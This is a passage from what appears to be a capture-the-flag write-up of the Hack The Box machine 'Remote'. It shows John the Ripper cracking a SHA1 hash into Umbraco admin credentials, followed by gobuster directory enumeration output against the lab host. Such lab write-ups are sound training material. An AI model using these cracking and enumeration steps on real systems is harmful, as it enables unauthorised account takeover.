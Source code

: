 One of the first lines reveals a SHA1 hashed password, cracking this with *john* will provide me with admin credentials to the Umbraco CMS.

~~~
┌──(kali@kali)-[~/boxes/remote]
└─$ echo "b8be16afba8c314ad33d812f22a04991b90e2aaa" > hash
┌──(kali㉿kali)-[~/boxes/remote]
└─$ sudo john -w=/usr/share/wordlists/rockyou.txt hash              
Created directory: /root/.john
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
baconandcheese   (?)
1g 0:00:00:01 DONE (2020-09-08 16:26) 0.9345g/s 9181Kp/s 9181Kc/s 9181KC/s baconandchipies1..bacon918
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed
~~~
{: .language-bash}

Now i finally have a set of credentials.

*admin@htb.local:baconandcheese*

Checking out the previosuly started gobuster i see that it found some interesting pages

~~~
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.180
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/08 16:29:04 Starting gobuster
===============================================================
/contact (Status: 200)
/blog (Status: 200)
/home (Status: 200)
/products (Status: 200)
/people (Status: 200)
/Home (Status: 200)
/Products (Status: 200)
/Contact (Status: 200)
/install (Status: 302)
/Blog (Status: 200)
/about-us (Status: 200)
--snip--
~~~
